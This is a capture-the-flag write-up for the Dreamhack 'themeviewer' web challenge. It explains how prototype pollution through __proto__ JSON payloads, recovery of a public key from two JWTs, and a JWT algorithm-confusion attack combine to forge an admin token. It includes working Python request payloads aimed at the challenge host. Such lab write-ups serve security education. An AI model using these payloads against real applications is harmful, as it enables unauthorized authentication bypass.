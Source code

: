 ```yaml
---
title: themeviewer
date: 2025-10-14 09:56:00 +0800
categories: [Cybersecurity]
tags: [dreamhack, web]
description: Level 6 web exploitation challenge on Dreamhack.io
---
```


### The Challenge
[https://dreamhack.io/wargame/challenges/1726](https://dreamhack.io/wargame/challenges/1726)

![](/assets/img/posts/themeviewer/img1.png)
*No description... very mysterious*

A quick scan through `index.js` shows an obvious prototype pollution vector:

```js
class ThemeManager {
    static merge(target, source) {
        for (let key in source) {
            if (source[key] && typeof source[key] === 'object') {
                target[key] = target[key] || {};
                this.merge(target[key], source[key]);
            } else {
                target[key] = source[key];
            }
        }
        return target;
    }
    static createTheme(base, customizations = {}) {
        const theme = base ? { ...default_theme[base] } : {};
        return this.merge(theme, customizations);
    }
}
```

Here is the authentication logic; we need to authenticate as `admin` to get the flag.

```js
let users = {
    admin: "REDACTED"
}

app.post('/api/login', (req, res) => {
    const { username, password } = req.body;
    if (username in users && users[username] === password) {
        const payload = {
            user: username,
        };
        const token = jwt.sign(payload, parseKey("private", PRIVATE_KEY, { format: "pkcs8" }), { algorithm: 'ES256' });
        res.cookie('token', token)
        res.json({ token });
    } else {
        res.status(401).json({ error: 'invalid credentials' });
    }
});
```

It's not possible to pollute `admin` to whatever we want, as `admin` is already set in the `users` object.

However, we observe that it is possible to create our own user using prototype pollution, whom we can login as.

I also remembered from past challenges that it's possible to derive the public key of a JWT if you have a JWT signed using its private key.

First, we create 2 users to get 2 JWTs:

```py
json_data = {
    "base": "light",
    "customizations": {
      "__proto__": {
          "user1": "user1"
      }
    }
}
response = requests.post('http://host8.dreamhack.games:14687/api/theme', json=json_data, verify=False)

json_data = {
    "base": "light",
    "customizations": {
      "__proto__": {
          "user2": "user2"
      }
    }
}
response = requests.post('http://host8.dreamhack.games:14687/api/theme', json=json_data, verify=False)
```

Next, we use this tool I found to recover the public key:

![](/assets/img/posts/themeviewer/img2.png)
*Recovering the public key*

I converted the public key recovered from above into this format (as seen in the challenge file):

```
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEjA20wIyE3BEQNyG8bHfFhwDdZKNnJ1EPdNnjpe406wSY1MKT+o+kJ+dCTo7NJYPEFr/t6VJeK5F0UQQQl2r1o=
```

Looking at this part of `index.js`, we realize that a JWT algorithm confusion attack is possible as the function doesn't take in an `algorithms` argument.

```js
app.get('/admin', (req, res) => {
    const token = req.cookies["token"]
    try {
        const decoded = jwt.verify(token, parseKey("public", PUBLIC_KEY));

        if (decoded.user === 'admin') {
            res.render('admin', { flag: 'WaRP{REDACTED}' });
        } else {
            res.status(403).json({ error: 'access denied' });
        }
    } catch (err) {
        res.status(401).json({ error: 'invalid token' });
    }
});
```

However, submitting a JWT with a `HS256` algorithm in the header produces this error:

![](/assets/img/posts/themeviewer/img3.png)
*Error produced attempting a JWT algorithm confusion attack*

This is proabably because the JWT library has put in place measures to prevent algorithm confusion attacks, depending on the contents of the key fed into the `verify` function. The key that `parseKey` was returning was:

```
-----BEGIN PUBLIC KEY-----
MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAESMDbTAjITcERA3Ibxsd8WHAN1ko2
cnUQ902eOl7jTrBJjUwpP6j6Qn50JOjs0lg8QWv+3pUl4rkXRRBBCXavWg==
-----END PUBLIC KEY-----
```

```js
const parseKey = (keytype, Key, options = {}) => {
    let key
    if (keytype === "private") {
        key = sshpk.parsePrivateKey(Key, 'ssh');
    } else {
        key = sshpk.parseKey(Key, 'ssh', { filename: "publickey" });
    }
    return key.toString(options.format || 'pkcs8')
}
```

The JWT library detects that using `HS256` with this key just doesn't make sense and throws an error. (This is probably some safety mechanism by the JWT library)

However, as `options` is an empty object in the `parseKey` function call, prototype pollution comes into play once again.

We can set `options.format` to something like `openssh`, and this causes the key coming from `parseKey` to be compatible with `HS256` in our JWT.

```py
json_data = {
    "base": "light",
    "customizations": {
      "__proto__": {
          "format": "openssh"
      }
    }
}
response = requests.post('http://host8.dreamhack.games:14687/api/theme', json=json_data, verify=False)
```

Lastly, all we have to do is to convert the public key into the openssh format, and create a JWT token using the `HS256` algorithm with the new public key.

Setting the new JWT as my `token` cookie, I solved the challenge.

![](/assets/img/posts/themeviewer/img4.png)
*Win!*